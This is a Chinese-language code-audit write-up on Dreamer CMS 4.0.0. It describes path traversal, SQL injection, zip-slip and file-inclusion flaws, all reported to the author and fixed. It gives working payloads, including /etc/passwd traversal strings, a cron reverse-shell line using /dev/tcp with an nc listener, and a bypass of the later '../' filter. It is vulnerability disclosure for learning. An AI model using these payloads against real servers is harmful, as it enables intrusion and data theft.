<!--more--> 
# 0x00 前言
很久没进行Java代码审计了，在Gitee上找到一个个人开发的CMS。Star数量可观并且有对应的官网，可以看出作者为这个CMS注入了很多心血。目前所有漏洞已经提交并由作者修复。尽管作者修复很快，但代码中的漏洞是遗留性问题，在原来的版本中仍然存在漏洞。
具体可以看： [https://gitee.com/isoftforce/dreamer_cms/issues](https://gitee.com/isoftforce/dreamer_cms/issues) 
# 0x01 声明
公网上存在部署了旧版本的CMS，基本上这些公网上的CMS存在很多问题。
请不要非法攻击别人的服务器，如果你是服务器主人请升级到最新版本。
请严格遵守网络安全法相关条例！此分享主要用于交流学习，请勿用于非法用途，一切后果自付。
一切未经授权的网络攻击均为违法行为，互联网非法外之地。
# 0x02 审计环境
CMS版本：Previous_Releases_4.0.0
JVM名称：OpenJDK 64-Bit Server VM
JAVA版本：1.8.0_362
操作系统名称：Linux
操作系统架构：amd64
数据库版本：8.0.32
# 0x03 系统搭建
作者给出了本地搭建的教程：[http://cms.iteachyou.cc/article/07d10ba665644d40ba558b0fe3d4831f](http://cms.iteachyou.cc/article/07d10ba665644d40ba558b0fe3d4831f)
如果需要部署，可以选择使用IDEA打包成jar到服务器上运行。本地审计时需要断点，可以直接使用IDEA启动环境。
这里我使用了 docker 安装 redis 和 mysql 环境，通过分别挂载 redis.conf 和 conf 文件完成服务搭建。这两个文件都可以从网络上找到，或者映射自己的也行，这里不再赘述。
```
docker run -it --name redis -p 6380:6379 -v /docker-data/redis/redis.conf:/etc/redis/redis.conf -v /docker-data/redis:/data -d redis redis-server /etc/redis/redis.conf --appendonly yes
docker run -itd --name mysql -p 3366:3306 -v /docker-data/mysql/conf:/etc/mysql/conf  -v /docker-data/mysql/data:/data -e MYSQL_ROOT_PASSWORD=123456 mysql
```
创建完服务后，导入项目目录下的`src/main/resources/db/db.sql`数据库文件到我们的 docker 服务。这个方法比较多就不再赘述了。
然后解压项目目录下的 `src/main/resources/db/dreamer-cms.zip`这个是资源文件。
最后修改项目目录下的`src/main/resources/application-dev.yml`配置文件，修改对应内容。

运行项目DreamerCMSApplication.java
网站首页：[http://localhost:8888](https://gitee.com/link?target=http%3A%2F%2Flocalhost%3A8888) 项目管理后台：[http://localhost:8888/admin](https://gitee.com/link?target=http%3A%2F%2Flocalhost%3A8888%2Fadmin)
默认管理后台用户名：wangjn；密码：123456
# 0x04 审计漏洞
## 后台设置栏目存在任意文件读取漏洞
### 漏洞效果
点击左侧栏中的“栏目/文章”选项进入到栏目管理，新建顶级栏目，这里我创建了一个命名为 test 的顶级栏目。

在新建时，我们关注模板管理，这里我们在封面模板一项填入：/../../../../../../../../../../etc/passwd

在前端首页顶部栏目中找到test，访问即可获得敏感信息。

### 漏洞定位
Controller 文件：`src/main/java/cc/iteachyou/cms/controller/admin/CategoryController.java`

这里将所有参数转换成实体类`Category`，在处理模板路径处，只是判断了是否为空和是否为`/`开头，没有做路径穿越判断，直接存储到数据库中去了。
Controller 文件：`src/main/java/cc/iteachyou/cms/controller/FrontController.java`

其中的`cover`方法对应处理路径`@RequestMapping("cover-{typeid}/{visitUrl}")`，这里可以看到直接做了拼接，然后通过`FileUtils.readFileToString`读出文件内容并返回页面。
## 后台模板标签存在SQL注入
### 漏洞效果
我们到模板管理中，任意修改模板文件，我这里我修改了`index_about.html`文件。

```
<div class="aboutUs">
  {dreamer-cms:sql sql="SQL语句，只允许select开头。"}
	<div>[field:content/]</div>
	{/dreamer-cms:sql}
</div>
```
我们可以使用 `select ... into dumpfile ...`的SQL语句写入文件到`/var/lib/mysql-files`目录下。同样可以使用`select`获取数据库所有表的数据并输出出来。

因为没有地方可以进行查询`secure_file_priv`属性，我直接通过连接 docker mysql 查看。

当我们再次访问“关于我们”的页面。

通过进入 docker 容器查看，发现文件已经写入。

我们可以使用`SELECT CONVERT(load_file('/var/lib/mysql-files/test1.txt') USING utf8) AS content FROM dual;`SQL语句读取我们写入的文件。

再次访问“关于我们”的页面发现将我们写入的文件读了出来。

> MySQL 8.0.11 版本引入了“禁用动态加载函数”功能，这是为了提高MySQL的安全性而引入的。当启用此功能时，MySQL将禁止使用UDF函数和UDF共享库加载机制，以防止潜在的安全威胁。这个功能默认是开启的，可以通过在mysqld启动时使用--disable-dynamic-loading选项禁用它。

### 漏洞定位
SQL XML映射文件：`src/main/resources/mapping/SqlMapper.xml`

非常简单，直接执行传入的SQL语句，没有任何过滤，也没有预编译。这里不能多行执行，也就是执行带有`;`号的SQL语句。
在 Mybatis SQL映射文件中可以通过在SQL语句中添加 `allowMultiQueries=true` 参数来允许多行执行。
```
<select id="getUsers" parameterType="string" statementType="CALLABLE" allowMultiQueries="true">
    SHOW TABLES;
    SELECT * FROM users;
</select>
```
模板自定义标签文件：`src/main/java/cc/iteachyou/cms/taglib/tags/SqlTag.java`

没有进行SQL过滤，但校验了SQL语句开头必须带有`select`，也就是确保只能执行查询语句。
## 后台压缩校验不正确导致Getshell
### 漏洞效果
我们先在 Linux 系统创建`..\*..\*..\*..\*..\*..\*..\*..\*..\*..\*var\*spool\*cron\*root`文件，并写入远连命令。
```
echo "*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/7777 0>&1" > ..\*..\*..\*..\*..\*..\*..\*..\*..\*..\*var\*spool\*cron\*root
zip -r ./test3.zip ..\*..\*..\*..\*..\*..\*..\*..\*..\*..\*var\*spool\*cron\*root
```


打包完后，通过风格管理上传该压缩包。

提示主题描述不存在，问题不大，这说明解压完成了。

在后台日志输出也能看到解压完毕。

接着我们到服务机器上看到我们的文件已经写进去了。

通过`nc -lvvp 7777`成功获得服务器权限。

### 漏洞定位
Controller文件：`src/main/java/cc/iteachyou/cms/controller/admin/ThemesController.java`

在添加主题中调用了`unZipFiles`，我们具体看看这个工具类方法。
工具类文件：`src/main/java/cc/iteachyou/cms/utils/ZipUtils.java`

代码是常见的文件解压操作，针对压缩包内文件名做了`../`判断的校验，但在后面的代码里，使用正则将文件名内的`*`全部替换成路径符号`/`。值得注意的是，这里没有校验`..\`，这同样会造成目录穿越。
`..*..*..*..*..*..*..*..*..*..*var\*spool\*cron\*root`变成`../../../../../../../../../../var/spool/cron/root`导致目录穿越的产生。在Linux情况下，我们可以写计划任务或者写SSH私钥可以达到获取服务器权限的目的。Window的情况下可以写恶意EXE到桌面钓鱼。
## 后台附件管理处存在任意文件删除
### 漏洞效果
测试服务器上的dreamer-cms模板文件目录。`/var/www/dreamer-cms/backups/2023-03-14`下存在sql文件。

我们在附件管理中进行添加附件，上传文件后点击确认。此时使用burp进行抓包。

将包内的filepath修改成`../../../../../../../var/www/dreamer-cms/backups/2023-03-14/2023-03-14_system_user.sql`后放包。

刷新后可以看到已经有记录了，这个时候我们点击删除按钮。

确认删除后，我们到服务器上再确认一下。发现文件已经删除。

### 漏洞定位
处理附件Controller文件：`src/main/java/cc/iteachyou/cms/controller/admin/AttachmentController.java`

这里直接做了字符拼接。同一文件下，添加附件的逻辑处理中，没有对filepath字段进行过滤直接进行了保存。

两处都没有做输入过滤导致了任意文件删除漏洞的产生。
## 后台附件管理处存在任意文件下载
### 漏洞效果
我们在附件管理中进行添加附件，上传文件后点击确认。此时使用burp进行抓包。

将包内的filepath修改成`../../../../../../etc/passwd`后放包。

生成后，在页面上点击下载游览。

成功下载文件并获得敏感信息。

通过burp也能看到。

### 漏洞定位
处理附件Controller文件：`src/main/java/cc/iteachyou/cms/controller/admin/AttachmentController.java`

这里直接做了字符拼接。同一文件下，添加附件的逻辑处理中，没有对filepath字段进行过滤直接进行了保存。

两处都没有做输入过滤导致了任意文件下载漏洞的产生。
## 后台模板标签存在任意文件包含
### 漏洞效果
我们到模板管理中，任意修改模板文件，我这里我修改了`index_about.html`文件。

```
{dreamer-cms:include file='../../../../../../../../../../../../etc/passwd'/}
```

当我们访问“关于我们”的页面时就能看到敏感文件信息了。

### 漏洞定位
模板标签文件：`src/main/java/cc/iteachyou/cms/taglib/tags/IncludeTag.java`

这里的`entity.get("file").toString()`实际上就是`{dreamer-cms:include file='../../../../../../../../../../../../etc/passwd'/} `中的`../../../../../../../../../../../../etc/passwd`。
上面的代码只是判断了是否为空，但没有做目录穿越校验，导致了漏洞的产生。
## 后台模板管理可以任意编辑导致GetShell
为了观察断点信息，这里我使用了Window10环境。
### 漏洞效果
我们先到项目目录`src\main\resources\db\dreamer-cms\templates`

先把`default_v2`目录复制一份，修改成`default_v3`。

修改其中的`theme.json`文件。将其中的`themePath`值修改成`../../../../../../../../../../../../../../`

然后打包`default_v3`成`default_v3.zip`，到后台风格管理处上传zip文件并启用主题。

此时我们再到模板管理处就可以看到目录下的文件了。

我们可以任意查看文件内容，同时也可以修改文件内容。

如果是Linux服务器，我们可以修改`authorized_keys`文件进行免密登录了，也可以写计划任务。这里只能修改已存在文件，但可以配合压缩校验不正确上传任意文件，来达到获取服务器权限的目的。
### 漏洞定位
主题上传Controller文件：
`src/main/java/cc/iteachyou/cms/controller/admin/ThemesController.java`
找到`add`方法。截图为解压完后针对`theme.json`文件的校验。下面的截图都是一个地方，注意观察行数。


1. 判断文件是否存在
2. 判断JSON解析是否正确
3. 判断Key是否都存在



4. 判断对应值是否为空
5. 创建theme对象
6. 判断设置路径是否已"default"开头



7. 判断数据库内是否存在同路径
8. 这里进入到没有就存储新一条数据

到这里为止，发现都没有对我们修改的`themePath`进行目录穿越的校验。此漏洞之前被作者修复过，但不够完全。
具体修复内容看：
[https://gitee.com/isoftforce/dreamer_cms/commit/db95f1dadd7dcc5ea75c9fda03ea71ec21f38637](https://gitee.com/isoftforce/dreamer_cms/commit/db95f1dadd7dcc5ea75c9fda03ea71ec21f38637)
观察TemplateController文件：
`src/main/java/cc/iteachyou/cms/controller/admin/TemplateController.java`

不论在我们查看文件、保存文件时都存在着路径校验。我们直接看`save`方法，用来处理保存文件逻辑。
可以看到此时`themeDir`已经被污染了。

一般来说`!templateFile.getCanonicalPath().startsWith(themeDir.getCanonicalPath())`这句话是没错的，它能过滤掉`..\`获得真实路径。但我们在这种情况下观察`getCanonicalPath`方法返回的值。

`templateFile.getCanonicalPath()`的值为`E:\SSH私钥.txt`

`themeDir.getCanonicalPath()`的值为`E:\`
这时`startsWith`肯定是通过的。接着就保存文件了。也就是说一旦`themeDir`被污染了，那么检测就是摆设。

后续就是保存文件了。
# 后话
该CMS还在开发中，随着不断的开发，不同的漏洞问题也会随之浮现，我们审计的同时提交相关漏洞问题可以让作者更好的完善该CMS。我认为还存在不少问题，期待大家审计发现。
比如说最新修复的：
[https://gitee.com/isoftforce/dreamer_cms/commit/b5461fe3846f768a8739d436a5d048c5175971b0](https://gitee.com/isoftforce/dreamer_cms/commit/b5461fe3846f768a8739d436a5d048c5175971b0)
作者使用下面这种方式进行目录穿越检测。
```
if(themePath1.contains("../") || themePath1.contains("..\\")) {
  throw new XssAndSqlException(
      ExceptionEnum.XSS_SQL_EXCEPTION.getCode(),
      ExceptionEnum.XSS_SQL_EXCEPTION.getMessage(),
      "theme.json文件疑似不安全，详情：" + themePath1);
}
```
但其实我们可以使用`.\./`来绕过。例如我们在自己的Linux机器上演示：
`cat ./.\./.\./.\./.\./.\./.\./.\./.\./.\./.\./.\./.\./.\./etc/passwd`

